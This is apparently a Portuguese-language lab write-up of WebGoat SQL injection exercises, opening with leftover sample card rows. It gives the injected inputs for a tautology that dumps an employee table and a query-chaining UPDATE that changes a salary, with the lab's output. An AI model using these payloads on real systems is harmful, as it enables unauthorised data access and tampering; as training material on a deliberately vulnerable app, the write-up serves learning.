 ```
15603, Peter, Sand, 338893453333, AMEX, , 0,
15613, Joesph, Something, 33843453533, AMEX, , 0,
15837, Chaos, Monkey, 32849386533, CM, , 0,
19204, Mr, Goat, 33812953533, VISA, , 0,

```

### Problema 11 - Compromising confidentiality with String SQL injection

Preenchendo os campos com os dados indicados, basta garantir que em ``Authentication TAN`` se coloca uma condição que retorna sempre ``True``. Na seleção da opção é preciso ter em atenção as aspas que já se encontram na *query*.

>Employee Name: Smith 

>Authentication TAN: 3SL99A' OR '1'='1


obteve-se:

```
You have succeeded! You successfully compromised the confidentiality of data by viewing internal information that you should not have access to. Well done!


USERID	FIRST_NAME	LAST_NAME	DEPARTMENT	SALARY	AUTH_TAN	PHONE
32147	Paulina	Travers	Accounting	46000	P45JSI	null
34477	Abraham	Holman	Development	50000	UU2ALK	null
37648	John	Smith	Marketing	64350	3SL99A	null
89762	Tobi	Barnett	Sales	77000	TA9LL1	null
96134	Bob	Franco	Marketing	83700	LO9S2V	null

```

### Problema 12 - Compromising Integrity with Query chaining


Preenchendo os campos da seguinte maneira:

>Employee Name: Smith 

>Authentication TAN: '; UPDATE Employees SET salary=1000000 WHERE last_name='Smith' --


obteve-se:

```
Well done! Now you are earning the most money. And at the same time you successfully compromised the integrity of data by changing the salary!


USERID	FIRST_NAME	LAST_NAME	DEPARTMENT	SALARY	AUTH_TAN	PHONE
37648	John	Smith	Marketing	1000000	3SL99A	null
96134	Bob	Franco	Marketing	83700	LO9S2V	null
89762	Tobi	Barnett	Sales	77000	TA9LL1	null
34477	Abraham	Holman	Development	50000	UU2ALK	null
32147	Paulina	Travers	Accounting	46000	P45JSI	null

```
